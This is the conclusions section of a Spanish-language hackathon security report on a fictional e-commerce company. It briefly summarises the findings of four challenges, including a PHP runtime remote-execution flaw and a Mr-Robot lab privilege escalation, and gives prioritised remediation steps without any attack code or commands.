La evaluación del Reto 1 evidenció que la plataforma de comercio electrónico de InnovaSec S.A.S. presenta riesgos críticos que permiten el compromiso total del servidor. Las causas se concentran en validación de entradas, gestión de credenciales y configuración del sistema. La aplicación de los controles ISO/IEC 27001:2022 seleccionados y el plan de tratamiento propuesto reducen los riesgos críticos a niveles medios/bajos. Se recomienda priorizar R-01 y R-02, cifrar credenciales (R-04) e implementar monitoreo centralizado (R-05).
Los Retos 2 y 3 mostraron las dos caras de la misma vulnerabilidad del entorno de ejecución (PHP 8.4.26): en el Reto 2 se obtuvo ejecución remota sin autenticación sin tocar el código de la aplicación, y en el Reto 3 se reconstruyó ese mismo ataque desde los registros. La prioridad es tratar el runtime como parte de la superficie de ataque: parchearlo con la misma urgencia que la aplicación (R-06, R-07, R-09), restringir lo que la cuenta web puede leer (R-10), rotar los secretos que la fuga pudo exponer y convertir en alertas las señales que ya quedaban en los logs junto con el filtrado del tráfico saliente (R-08, R-11).
El Reto 4 (Mr-Robot) confirmó la misma lección desde la capa de aplicación: la cadena de reconocimiento a root no necesitó exploits de día cero, sino configuraciones inseguras acumuladas (información expuesta, credenciales débiles, permisos excesivos y un binario SUID). El hardening básico y consistente, más la detección de la fuerza bruta y de las conexiones salientes, habría roto la cadena (R-12 a R-15).
Anexos: las capturas están en evidencias/ (Reto 1, Fig. 1–21), evidencias-reto2/ (Reto 2, Fig. R2-1 a R2-4), evidencias-reto3/ (Reto 3, Fig. R3-1 a R3-17) y evidencias-reto4/ (Reto 4, Fig. R4-1 a R4-8). Los cuatro retos (Niveles 1–4) están completados.
Informe generado para la Hackathon CyberRisk 2.0 — The Next Level · InnovaSec S.A.S. (escenario ficticio) · Documento académico